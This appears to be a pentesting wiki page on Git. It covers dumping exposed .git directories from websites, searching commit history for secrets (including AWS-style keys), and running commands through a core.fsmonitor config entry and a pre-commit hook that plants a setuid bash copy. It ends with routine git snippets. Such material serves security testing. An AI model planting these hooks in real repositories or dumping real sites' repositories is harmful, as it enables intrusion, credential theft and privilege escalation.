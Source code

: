 ```yaml
---
description: >-
  A version control system often saving lots of information about how files were
  changes
---
```


# Git

## Description

Git is a version control system that allows you to save the state of files. It is often used with source code and published on [Github](https://github.com/). There are a few keywords that Git uses you need to know to understand the terminology:

* **Repositories**: The entirety of your git system, with the files, history, and information. Can be created using `git init`
* **Commits**: "Save states" of the files in your repository. Whenever you change something and you are happy with the change, you can commit it so it's saved as a snapshot that you can later go back to. Can be created using `git commit -m "message"`
* **Branches**: Parallel to your main repository, branches are sidesteps to slowly work on a new feature for example, and then later in time **merge** it into the main branch. Can be created using `git checkout -b newfeature`

All the information about your Git repository gets saved in a `.git` directory that is at the root of your repository. The `git` command interacts with this directory and lots of tools can get information from it. So if you ever find a `.git` directory you'll know the current directory is a Git repository.&#x20;

To find everything in a repository without having to think of every command, you can use a tool like [GitKraken](https://www.gitkraken.com/) to explore the repository visually. Just open the directory in that tool and you can see a timeline of what commits and branches were made.&#x20;

## Finding Git on websites

In some cases, you'll find that the website you're testing uses Git by finding a `.git` directory. Normally this should be hidden by a 403 Forbidden for example, but this is not always the case. Sometimes you can see a list of files, or you can directly access `.git/HEAD` instead.&#x20;

### Web - Directory Listing

When you visit the `.git` directory on the website, and you can see a list of files relating to git, you know that directory listing is on. This makes it really easy to download everything at once recursively and then examine the repository on your own machine.&#x20;

```shell-session
$ wget -r http://example.com/.git
```

#### Git-dumper

When a website disables directory listing, but the `.git` directory can still be found with something like `.git/HEAD`, you might be able to use [git-dumper](https://github.com/arthaud/git-dumper) on it to extract all the files without having the need for directory listing. This tool understands the Git file structure and can find all the related files:

{% embed url="https://github.com/arthaud/git-dumper" %}
A tool to dump a git repository to your local machine, without needing directory listing
{% endembed %}

```shell-session
$ pip install git-dumper
$ git-dumper http://example.com/.git git/
```

Then use the source code to perform more targeted attacks, or look for secrets, even in history:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git log -p  # Show commits with diffs
</strong>...
+++ b/secret.py
@@ -0,0 +1,85 @@
+access_key_id = "AKIA6CFMOGSLALOPETMB"
+secret_access_key = "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"
+region = "us-east-2"
...
<strong>$ git branch -a  # List all branches
</strong>* master
  development
</code></pre>

## Attacking Git Commands (RCE)

Git is a very flexible system, allowing many settings to be changed to decide how CLI tools interact with the repository. These configuration variables can allow executing arbitrary commands however when certain git commands are executed. The `core.fsmonitor` variable in `.git/config` is a common one that can be set to a bash command to execute:

{% code title=".git/config" %}
```diff
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
+       fsmonitor = "id | tee /tmp/pwned > /dev/tty"
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git status
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
...
</code></pre>

Many shell extensions like [Starship](https://github.com/starship/starship/issues/3974) use `git` to get the current repository and are vulnerable to this, as well as [Visual Studio Code](https://www.sonarsource.com/blog/securing-developer-tools-git-integrations/#example-of-affected-ide-visual-studio-code) (now only with Trusted Mode). To find such issues, you can create a malicious repository with as many landmines as possible that trigger on different commands. This creates an empty repository with most known ways to execute commands:

{% embed url="https://github.com/jwilk/git-landmine" %}
Create a repository with `.git/config` and `hooks` GIT landmines (`lib/payload` = payload)
{% endembed %}

### Git Hooks

There is another feature called "hooks" that allow you to run bash scripts when a certain action happens with the repository. When a `git commit` is executed, for example, the `pre-commit` hook gets triggered. If you can write these hooks you can let whoever runs the `git commit` execute arbitrary commands.&#x20;

You can find these hooks in the `.git/hooks` directory. If you are able to write a `pre-commit` file here, you can put any executable file in its place and it will be run on commit:

{% code title=".git/hooks/pre-commit" %}
```bash
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

Then just make sure the file is actually executable with `chmod`:

```shell-session
$ chmod +x pre-commit
```

## Git Snippets

If you're running a git repository, you might need some complicated actions from time to time. This is a collection of some common actions as commands to quickly copy and paste.&#x20;

{% code title="Push to remote origin" %}
```shell-session
$ git remote add origin https://github.com/[username]/[repository].git
$ git branch -M main  # Switch to main branch for GitHub
$ git push --set-upstream origin main  # Set the default upstream

$ git push  # From now on, you can just push
```
{% endcode %}

{% code title="Reset all commits" %}
```shell-session
$ rm -rf .git
$ git init
$ git commit -m "Initial commit"
$ git push --force  # Force to overwrite existing remote
```
{% endcode %}

{% code title="Undo last commit" %}
```shell-session
# # If not pushed yet
$ git reset --soft HEAD~
# # If already pushed
$ git reset HEAD~  # Use --hard to also throw away the changes in the commit
$ git push --force
```
{% endcode %}

{% code title="Create and push tag" %}
```shell-session
$ git tag 0.1.0
$ git push origin --tags  # Push all tags
# # More info: https://stackoverflow.com/a/18223354/10508498
```
{% endcode %}
